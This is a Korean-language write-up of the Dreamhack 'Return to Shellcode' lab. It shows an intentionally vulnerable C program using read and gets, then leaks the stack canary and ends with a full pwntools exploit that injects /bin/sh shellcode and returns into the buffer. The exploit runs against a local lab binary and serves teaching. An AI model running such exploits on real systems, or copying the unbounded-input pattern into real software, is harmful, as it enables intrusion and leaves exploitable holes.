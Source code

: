 ### 1. 서론

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x50];
  
  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);
         
  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);
  
  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);
 
  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);
  
  return 0;
}
```

<br>

---

<br>

### 2. 분석

#

**보호 기법 탐지**

```bash
$ checksec r2s
[*] '/home/ion/dreamhack/Exploit_Tech_Return_to_Shellcode/r2s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

checksec 명령어를 입력하면 바이너리 적용된 보호 기법을 확인할 수 있습니다.

<br>

**취약점 탐색**

```c
 printf("Address of the buf: %p\n", buf);
 printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);
```

buf의 주소와 buf~rbp까지의 거리를 출력해주고 있습니다.

#

```c
char buf[0x50];

read(0, buf, 0x100);

gets(buf);
```

read와 gets 함수에 의해 두번의 버퍼 오버플로우가 발생합니다.

<br>

**익스플로잇 시나리오**

```c
read(0, buf, 0x100);                  // Fill buf until it meets canary
printf("Your input is '%s'\n", buf);
```

첫번째 입력값으로 카나리를 구합니다.

그런 다음 두 번째 입력값으로 반환 주소를 덮어야 하는데, 이번 문제 코드에는 get\_shell() 같은 함수가 없습니다.
그래서 buf의 주소를 알고 있기 때문에, buf에 쉘 코드를 넣고 반환 주소에 buf의 주소를 넣어서 익스플로잇을 하겠습니다.

<br>

---

<br>

### 3. 익스플로잇

#

**스택 프레임 정보 수집**

```python
from pwn import *

def slog(n, m):	# buf <=> sfp, buf2sfp가 인자로 호출되면
    return success(": ".join([n, hex(m)]))	# [+] buf <=> sfp: 0x39 형식으로 출력

p = process("./r2s")

context.arch = "amd64"

p.recvuntil("buf: ")			# buf: 까지 데이터를 받음
buf = int(p.recvline()[:-1], 16)	# 개행 문자를 뺀 한 라인을 16진수 정수 형태로 받아서 대입
slog("Address of buf", buf)		# [+] Address of buf: 0x7ffc908a4410

p.recvuntil("$rbp: ")			# $rbp 까지 데이터를 받음
buf2sfp = int(p.recvline().split()[0])	# 개행 문자를 뺀 한라인을 정수 형태로 받아서 저장
buf2cnry = buf2sfp - 8			# buf~canary 거리 = buf~sfp 거리 - 8
slog("buf <=> sfp", buf2sfp)		# [+] buf <=> sfp: 0x39
slog("buf <=> canary", buf2cnry)	# [+] buf <=> canary: 0x31
```

#

```bash
$ python3 ./r2s.py
[+] Starting local process './r2s': pid 8501
[+] Address of buf: 0x7ffe1d28c570
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
```

<br>

**카나리 릭**

<img src="https://velog.velcdn.com/images/silvergun8291/post/c402a6ae-af0a-4b92-b342-d21403940f3d/image.png" align="left">


```c
read(0, buf, 0x100);	// buf에 0x100 만큼 입력을 받음
printf("Your input is '%s'\n", buf);	// buf를 출력
```

문자열은 NULL을 통해 끝을 구분하기 때문에, read 함수로 입력을 할 때 Canary 앞의 NULL 값을 다른 값으로 덮어버리면 buf에 이어서 Canary도 출력되게 됩니다.

<br>

```python
payload = b'A'*(buf2cnry + 1)		# 'A' * (buf~canry 거리 + 1) 대입
p.sendafter("Input: " ,payload)		# "Input: "이 출력되면 payload 전송
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))	# leak 된 카나리 값을 대입
slog("Canary", cnry)			# [+] Canary: 0x40e736d41cd76400
```

#

```bash
$ python3 ./r2s.py
[+] Starting local process './r2s': pid 8564
[+] Address of buf: 0x7ffe58a8d740
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
[+] Canary: 0x40e736d41cd76400
```

<br>

**익스플로잇**

```bash
Buf ← ShellCode
Canary ← 구한 카나리 값
SFP ← B * 8
RET ← Buf의 주소
```

<img src="https://velog.velcdn.com/images/silvergun8291/post/ce7a644e-5adf-4f5f-baca-9b049d477171/image.png" align="left">


```python
sh = asm(shellcraft.sh())		# '/bin/sh' 쉘 코드를 제작해서 대입
payload = sh.ljust(buf2cnry, b"A")	# buf2cnry 크기에 맞춰서 쉘 코드 + "AAA...." 대입
payload += p64(cnry)			# 구한 카나리 값 대입
payload += b"B" * 8			# 'B' * 8 대입
payload += p64(buf)			#buf의 주소 대입

p.sendlineafter("Input: ", payload)	# "Input: "이 출력되면 payload 전송

p.interactive()
```
#

```bash
[+] Starting local process './r2s': pid 347
[+] Address of buf: 0x7fffef0152b0
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
[+] Canary: 0x7a2fb272dbcada00
[*] Switching to interactive mode
$
```

<br>

**전체 익스플로잇**

```python
from pwn import *

def slog(n, m):
    return success(": ".join([n, hex(m)]))

p = process("./r2s")

context.arch = "amd64"

# [1] Get inforamtion about buf
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16)
slog("Address of buf", buf)

p.recvuntil("$rbp: ")
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog("buf <=> sfp", buf2sfp)
slog("buf <=> canary", buf2cnry)


# [2] Leak canary value
payload = b'A'*(buf2cnry + 1)
p.sendafter("Input: " ,payload)
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))
slog("Canary", cnry)


# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b"A")
payload += p64(cnry)
payload += b"B" * 8
payload += p64(buf)

p.sendlineafter("Input: ", payload)

p.interactive()
```

#

---

<br>

> [Exploit Tech: Return to Shellcode
](https://dreamhack.io/lecture/courses/64)
